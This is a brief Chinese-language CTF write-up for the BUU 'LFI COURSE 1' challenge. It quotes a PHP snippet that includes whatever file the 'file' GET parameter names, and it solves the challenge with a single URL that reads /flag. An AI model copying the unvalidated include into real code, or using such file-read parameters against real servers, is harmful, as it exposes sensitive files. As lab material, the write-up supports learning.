



# BUU LFI COURSE 1
php网站是很多很多的。。。\
php是世界上最好的语言。。。\
网站上的代码如是:
``` php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/7/9
 * Time: 7:07 AM
 */

highlight_file(__FILE__);

if(isset($_GET['file'])) {
    $str = $_GET['file'];

    include $_GET['file'];
}
```
总体而言，这段代码的作用是检查URL中是否传递了一个名为file的GET参数，如果存在，则包含并执行对应的文件。值得注意的是，这段代码存在安全风险，因为直接使用用户提供的GET参数来包含文件可能导致代码注入漏洞。在实际应用中，需要对用户输入进行严格的验证和过滤，以确保安全性。

直接在url输入:
```
http://21a5b944-5053-4ea3-980b-14c922427546.node4.buuoj.cn:81/?file=/flag
```

然后我们得到了flag,capture the flag~~


# 其他

